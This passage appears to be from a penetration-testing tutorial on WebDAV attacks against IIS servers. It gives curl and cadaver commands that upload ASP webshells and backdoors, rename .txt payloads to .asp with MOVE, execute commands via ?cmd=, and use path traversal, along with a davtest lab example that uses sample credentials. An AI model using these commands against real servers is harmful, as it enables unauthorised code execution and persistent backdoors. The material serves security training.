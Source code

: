 ### 4. WebDAV-Specific Bypass Techniques

#### HTTP Method Exploitation
```bash
# Direct PUT method upload
curl -X PUT -T shell.asp -u user:password http://target.com/webdav/shell.asp

# MOVE method for file renaming
curl -X MOVE -H "Destination: /webdav/shell.asp" \
     -u user:password http://target.com/webdav/shell.txt
```

#### File Extension Workaround (Metasploit Technique)
```bash
# Upload as safe extension, then rename to dangerous extension
# Step 1: Upload payload as .txt file
curl -X PUT -T payload.txt -u user:password http://target.com/webdav/payload.txt

# Step 2: Use MOVE method to rename to .asp
curl -X MOVE -H "Destination: /webdav/payload.asp" \
     -u user:password http://target.com/webdav/payload.txt

# Step 3: Execute the .asp file
curl http://target.com/webdav/payload.asp?cmd=whoami
```

#### Directory Traversal in WebDAV
```bash
# Upload files to different directories using cadaver
cadaver http://target.com/webdav/
dav:/webdav/> put shell.asp ../../../inetpub/wwwroot/shell.asp
dav:/webdav/> put backdoor.php ../../uploads/backdoor.php
```

---

## 🧪 Practical Lab Examples and Real-World Scenarios

### Lab Example: WebDAV IIS Server Exploitation

**Scenario:** Windows IIS server with WebDAV enabled, requiring authentication
- **Target:** demo.ine.local WebDAV service
- **Authentication:** bob:password_123321
- **Objective:** Upload and execute ASP webshell

#### Method 1: Capability Testing with davtest
```bash
# Test WebDAV capabilities and authentication
davtest -auth bob:password_123321 -url http://demo.ine.local/webdav/

# Expected results analysis:
# PUT asp SUCCEED - Can upload ASP files
# EXEC asp SUCCEED - Can execute ASP files
```
